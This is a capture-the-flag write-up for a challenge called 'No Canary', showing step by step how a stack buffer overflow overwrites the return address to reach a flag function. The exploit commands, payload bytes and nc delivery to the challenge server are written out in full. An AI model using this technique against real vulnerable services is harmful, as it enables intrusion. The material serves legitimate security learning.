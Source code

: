 # No Canary

Basic buffer overflow. Start by fuzzing the input:

```sh
# Generate unique sequence, specifying 8 bytes as the word size.
$ pwn cyclic -n 8 64
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa

# Run program in GDB with generated input and observe what value RBP gets
# clobbered with. Then, we look it up with pwn cyclic.
$ pwn cyclic -n 8 -l 0x6161616161616165
32

# RIP is stored after RBP on the stack, so we must write over the 8 bytes of
# the stored RBP. We know we have to write 32 bytes before we start clobbering
# RBP, so we have to write 32+8=40 bytes before we start clobbering RIP.
```

Now we get address of flag address so we can overwrite the RIP address stored on the stack:

```sh
$ nm -s ./no_canary | grep flag
0000000000401186 T flag
```

Knowing the offset to RIP and the address of where we want to return to, we can craft an exploit:

```sh
# Start by packing the return address into the proper endianness.
$ python2
>>> from pwn import *
>>> p64(0x0000000000401186)
'\x86\x11@\x00\x00\x00\x00\x00'

# Make our offset bytes.
$ python2 -c "print 'A'*40"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# Fire the exploit locally.
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86\x11@\x00\x00\x00\x00\x00' | ./no_canary
```

Now we just fire at the remote:

```sh
$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86\x11@\x00\x00\x00\x00\x00' | nc shell.actf.co 20700
... <snip> ...
actf{that_gosh_darn_canary_got_me_pwned!}
Segmentation fault
```
